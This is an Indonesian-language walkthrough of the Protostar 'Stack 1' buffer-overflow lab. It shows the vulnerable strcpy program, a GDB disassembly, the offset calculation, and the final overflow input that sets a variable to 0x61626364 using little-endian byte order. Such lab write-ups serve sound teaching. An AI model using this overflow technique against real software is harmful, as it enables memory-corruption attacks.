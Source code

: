 # Stack 1
## Tentang
Level ini memperkenalkan konsep memodifikasi variabel ke nilai tertentu dalam program, dan bagaimana variabel diletakkan dalam memori.

## Source Code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## Target Exploits
Pada level ini kita ditargetkan untuk mengubah variabel **modified** menjadi 0x61626364 untuk mencetak string "you have correctly got the variable to the right value". Pada program diatas, input kita disimpan pada kedalam buffer menggunakan fungsi **strcpy()**.

## Kerentanan Program
**strcpy()** bukanlah fungsi yang berbahaya seperti gets(), namun pada program diatas, ia tidak menentukan seberapa banyak buffer bisa disimpan di dalam alamat memory sehingga kita dapat menimpa alamat alamat seterusnya. Ini yang akan kita manfaatkan untuk menimpa nilai dari modified variabel.


## Lets Dive Deeper
**[!] Disclaimer** saya disini memindahkannya dari Protostar machine kedalam local maschine saya, agar lebih mudah untuk menganalisis programnya. Disini saya juga menggunakan ekstensi dari GDB yaitu gef. Jadi alamat pada machine anda mungkin berbeda.

> **gdb --args stack1 AAAA** </br>
> **disass main**
```
   0x08048464 <+0>:	push   ebp
   0x08048465 <+1>:	mov    ebp,esp
   0x08048467 <+3>:	and    esp,0xfffffff0
   0x0804846a <+6>:	sub    esp,0x60
   0x0804846d <+9>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x08048471 <+13>:	jne    0x8048487 <main+35>
   0x08048473 <+15>:	mov    DWORD PTR [esp+0x4],0x80485a0
   0x0804847b <+23>:	mov    DWORD PTR [esp],0x1
   0x08048482 <+30>:	call   0x8048388 <errx@plt>
   0x08048487 <+35>:	mov    DWORD PTR [esp+0x5c],0x0
   0x0804848f <+43>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048492 <+46>:	add    eax,0x4
   0x08048495 <+49>:	mov    eax,DWORD PTR [eax]
   0x08048497 <+51>:	mov    DWORD PTR [esp+0x4],eax
   0x0804849b <+55>:	lea    eax,[esp+0x1c]
   0x0804849f <+59>:	mov    DWORD PTR [esp],eax
   0x080484a2 <+62>:	call   0x8048368 <strcpy@plt>
   0x080484a7 <+67>:	mov    eax,DWORD PTR [esp+0x5c]
   0x080484ab <+71>:	cmp    eax,0x61626364
   0x080484b0 <+76>:	jne    0x80484c0 <main+92>
   0x080484b2 <+78>:	mov    DWORD PTR [esp],0x80485bc
   0x080484b9 <+85>:	call   0x8048398 <puts@plt>
   0x080484be <+90>:	jmp    0x80484d5 <main+113>
   0x080484c0 <+92>:	mov    edx,DWORD PTR [esp+0x5c]
   0x080484c4 <+96>:	mov    eax,0x80485f3
   0x080484c9 <+101>:	mov    DWORD PTR [esp+0x4],edx
   0x080484cd <+105>:	mov    DWORD PTR [esp],eax
   0x080484d0 <+108>:	call   0x8048378 <printf@plt>
   0x080484d5 <+113>:	leave
   0x080484d6 <+114>:	ret
```

Dapat kita lihat bahwa di alamat **0x080484a2** terdapat fungsi strcpy() yang meminta argument ketika program dijalankan, disini kita memasukkan argumen AAAA kedalam programnya. Setelah strcpy() dijalankan kita dapat melihat pada alamat **0x080484ab** terdapat perintah cmp. Pada assembly cmp digunakan untuk membandingkan nilai satu sama lain, disini dapat dilihat register **eax** dan **0x61626364** yang dibandingkan. Namun apa nilai eax?. Lets find out! </br>

Kita dapat meletakkan breakpoint pada alamat **0x080484ab** untuk melihat nilainya
> b *0x080484ab </br>
> x/wx $esp+0x5c  </br>
> x/wx $eax  </br>

```
gef➤  x/wx $esp+0x5c
0xffffcdcc:	0x00000000
gef➤  x/wx $eax
0x0:	Cannot access memory at address 0x0
```

Dapat kita lihat bahwa nilai dari $esp+0x5c yang dimasukkan kedalam eax adalah 0. Jadi kita dapat menduga bahwa $esp+0x5c adalah dimana nilai modified variabel disimpan. </br>
Sekarang kita sudah mengetahui dimana modified variabel disimpan, tapi seberapa banyak karakter yang kita butuhkan untuk mengubah nilainya? </br></br>

Pertama tama kita cari tahu terlebih dahulu dimana input kita disimpan. Pada alamat **0x0804849b** kita dapat melihat perintah lea *(load effective address)*, cara bekerjanya sedikit mirip dengan *mov*. Jadi coba kita lihat berapa nilai dari **$esp+0x1c**

> x/wx $esp+0x1c </br>

```
gef➤  x/wx $esp+0x1c
0xffffcd8c:	0x41414141
```

Nah 0x41414141 adalah **AAAA** yang kita masukkan sebagai argumen pada program. Jadi dapat disimpulkan alamat input kita berada pada **0xffffcd8c** dan alamat yang ingin kita ubah adalah **0xffffcdcc**. Terlihat tidak begitu jauh bukan?. Coba kita hitung seberapa banyak yang kita butuhkan.

>p/d 0xffffcdcc - 0xffffcd8c

```
gef➤  p/d 0xffffcdcc - 0xffffcd8c
$2 = 64
```

Kita sekarang tau bahwa kita membutuhkan 64 karakter untuk sampai ke alamat tersebut. Mari kita coba!

```
./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try again, you got 0x00000000
```

Kita masih belum mengubah variabel nya, coba kita tambahkan string **BBBB** setelahnya

```
./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Try again, you got 0x42424242
```

Dapat dilihat bahwa **0x42424242** muncul sebagai representasi dari **BBBB**. Masih ingatkah anda dengan target utama kita?, yaitu mengubah variabel modified menjadi 0x61626364, yang artinya **BBBB** kita ganti dengan hex tersebut dalam ASCII. Coba kita lihat berapa hex tersebut dalam ASCII

> python </br>
> chr(0x61) + chr(0x62) + chr(0x63) + chr(0x64)

```
python
>>> chr(0x61) + chr(0x62) + chr(0x63) + chr(0x64)
'abcd'
```
Sudah kita ketahui sekarang apa saja yang kita butuhkan untuk mengubah variabelnya, mari kita coba kembali
```
./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAabcd 
Try again, you got 0x64636261
```

Ha? mengapa kita mendapatkan **0x64636261** bukan **0x61626364**?. Itu terjadi karena litle endian.

### Litle Endian
> Little-endian Menyimpan byte paling tidak signifikan (yang disebut “ujung paling kecil”) terlebih dahulu. Ini berarti bahwa byte pertama (pada alamat memori terendah) adalah yang terkecil, yang paling masuk akal bagi orang yang membaca dari kanan ke kiri

Sekarang kita sudah mengetahui apa itu litle endian, mari kita coba sekali lagi dengan membaliknya menjadi **dcba** untuk mengalahkan level ini!
```
./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```

Yeay! Kita berhasil menyelesaikannya
